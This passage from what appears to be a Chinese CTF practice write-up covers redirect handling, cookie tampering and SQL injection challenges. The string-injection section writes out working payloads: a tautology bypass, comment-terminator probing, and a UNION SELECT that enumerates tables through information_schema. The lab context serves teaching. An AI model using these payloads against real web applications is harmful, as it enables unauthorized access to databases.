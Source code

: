 不会跳转，curl -L会跳转

### 03 cookie(easy)

抓包之后修改cookie

### 04 sql注入之整数型注入



### 05 sql注入之字符型注入

闭合 看到字符串类型 

```php
' or '1'='1   万能模板
```

试探闭合方式 为引号

闭合符号尝试

```php
--+
#
```

可以看出第一种注释符没有用

![image-20230828101946303](https://img1.imgtp.com/2023/09/03/7HSRHLNq.png)

尝试第二种

![image-20230828101751653](https://img1.imgtp.com/2023/09/03/8bMIoqRN.png)

3没有

![image-20230828101837158](https://img1.imgtp.com/2023/09/03/Hiwk4mbz.png)

2可以 说明是2列

再查找目标在第几列 可以看到1，2都可以

![image-20230828102248514](https://img1.imgtp.com/2023/09/03/9G9QzBim.png)

查找数据库

![image-20230828102728848](https://img1.imgtp.com/2023/09/03/JBBVGHyv.png)

查找表

```sql
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' #
```

![image-20230828103106251](https://img1.imgtp.com/2023/09/03/TrrRSNLh.png)
